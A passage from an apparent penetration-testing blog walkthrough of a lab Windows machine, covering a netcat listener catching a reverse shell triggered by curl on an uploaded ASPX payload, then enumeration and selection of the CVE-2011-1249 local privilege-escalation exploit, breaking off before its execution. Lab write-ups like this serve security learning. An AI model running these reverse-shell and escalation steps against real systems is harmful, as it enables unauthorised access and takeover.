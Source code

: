 * \-l — Put Net Cat into listening mode
* \-v — Enable verbose output (use -vv for more verbosity)
* \-n — Do not resolve DNS
* \-p — Port to listen on (choose 4444 to match payload from msvenom)

```bash
nc -lvnp 4444
```

![NetCat listener set up on my machine to catch reverse shell connection from victim machine](/Pen-testing-blog/assets/images/1__DIk9__HtBCf__KjWeqB1XvYA.png "Figure 6 - NetCat listener set up on my Kali Linux machine to catch reverse shell connection from victim computer")

Upon issuing a cURL command to the victim’s IP address in the Kali console, Net Cat will catch the reverse shell and we gain access to the victim’s machine as the low privileged user, **iis apppool\\web**

```bash
curl <http://10.10.10.5/reverseshell.aspx>
```

![Successful reverse shell connection established on victim machine](/Pen-testing-blog/assets/images/1__W3y3yPv__7__NE57UXB__GTwQ.png "Figure 7 - Successful reverse shell connection established on victim computer")

## Step 3 — Privilege escalation to root user as NT Authority\\System

### Enumerating Victim Computer for Vulnerabilities to escalate privileges

The next step after gaining an initial foothold is to escalate our privileges to the ROOT user as **NT Authority\\System**. The first step I do is run the **systeminfo** command which will output detailed information about the victim’s machine such as the OS build version, patches applied etc. The output of systeminfo below shows the OS version to be **6.1.7600 N/A Build 7600** and more importantly, **no hotfix patches have been applied**!

![Systeminfo command output showing missing security patches on victim's machine](/Pen-testing-blog/assets/images/1__Nx__Evi4GZDYU73bax42cXw.png "Figure 8 - Systeminfo command output showing missing security patches")

A simple Google search for “**privesc 6.1.7600 N/A Build 7600**” reveals the victim’s machine is vulnerable to **CVE-2011–1249** caused by the Windows ancillary function driver (Afd driver) running in elevated kernel mode improperly validating input passed to it from non — elevated user mode. CVE-2011–1249 already exists within the OffSec exploit database so the raw exploit code can be accessed using the **searchsploit** command in Kali Linux and copied to working directory with the -m flag.

![CVE-2011-1249 vulnerability details](/Pen-testing-blog/assets/images/1__63BdYjOulxxU92__oqL2hXg.png "Figure 9 - CVE-2011-1249 vulnerability details")

### Compiling vulnerability exploit code into an executable program

I run the one-line code to compile the exploit executable in the same directory on my Kali Linux machine where I downloaded the raw exploit. 40564.C is the raw exploit code from searchsploit -m 40564.c command.

![Compiled vulnerability executable](/Pen-testing-blog/assets/images/1__hcp__TtfkzlQCHzhd9xweHA.png "Figure 10 - Compiled vulnerability exploit into executable program")

### Executing exploit on victim machine to escalate access privileges to ROOT user
